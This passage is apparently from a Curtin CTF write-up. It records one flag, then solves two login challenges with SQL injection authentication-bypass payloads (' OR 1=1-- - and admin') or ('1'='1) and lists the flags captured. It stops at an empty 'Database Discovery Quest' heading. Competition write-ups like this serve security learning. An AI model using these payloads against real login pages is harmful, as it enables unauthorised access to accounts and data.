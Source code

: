 ![23](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image023.png)

```
Flag: CURTIN_CTF{Th3_D3v1l15_1NTH3_D3T41L5}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
---

## SQLi

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Try to login

(Author: 4jai)

![24](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image024.png)

The webpage ask us to login, by using simple payload ‘OR 1=1-- - in username and password, we got the flag.

```
‘OR 1=1-- -
```

![25](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image025.png)

```
Flag: CURTIN_CTF{5H0pT1m3}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Try logging in... again

(Author: 4jai)

![26](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image026.png)

The second webpage also ask the same questions, but now the payload did not work. We try to search another working payload and found the payload that can be use:

```
admin') or ('1'='1
```

![27](https://raw.githubusercontent.com/plnsgr/os1ris/main/CURTIN%20CTF/images/image027.png)

```
Flag: CURTIN_CTF{welc0m3aG@1n}
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
### Database Discovery Quest
